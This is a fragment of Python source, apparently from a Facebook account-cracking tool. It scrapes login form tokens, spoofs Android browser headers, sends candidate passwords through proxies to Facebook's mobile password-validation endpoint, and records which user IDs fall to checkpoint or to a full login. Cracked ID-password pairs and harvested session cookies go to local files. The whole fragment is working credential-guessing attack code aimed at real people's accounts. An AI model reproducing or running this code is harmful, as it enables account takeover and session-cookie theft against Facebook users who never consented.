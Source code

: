 			p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://m.facebook.com/v2.3/dialog/oauth?app_id=124024574287414&cbt=1651658200978&e2e=%7B%22init%22%3A1651658200978%7D&sso=chrome_custom_tab&scope=email&state=%7B%220_auth_logger_id%22%3A%2268f15bae-23f8-463c-8660-5cf1226d97f6%22%2C%227_challenge%22%3A%22dahj28hqtietmhrgprpp%22%2C%223_method%22%3A%22custom_tab%22%7D&redirect_uri=fbconnect%3A%2F%2Fcct.com.instathunder.app&response_type=token%2Csigned_request%2Cgraph_domain%2Cgranted_scopes&return_scopes=true&ret=login&fbapp_pres=0&logger_id=68f15bae-23f8-463c-8660-5cf1226d97f6&tp=unspecified","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://m.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}
			po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				print(f'\r  {K}â€”â€”>  {idf}|{pw}{N}')     
				os.popen('play-audio .cp.mp3')
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r  {H}OKðŸ”¥  {idf}|{pw}|{kuki}\n{ua}{N}')
				os.popen('play-audio .ok.mp3')
				open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n')
				cek_apk(session,coki)
				break
				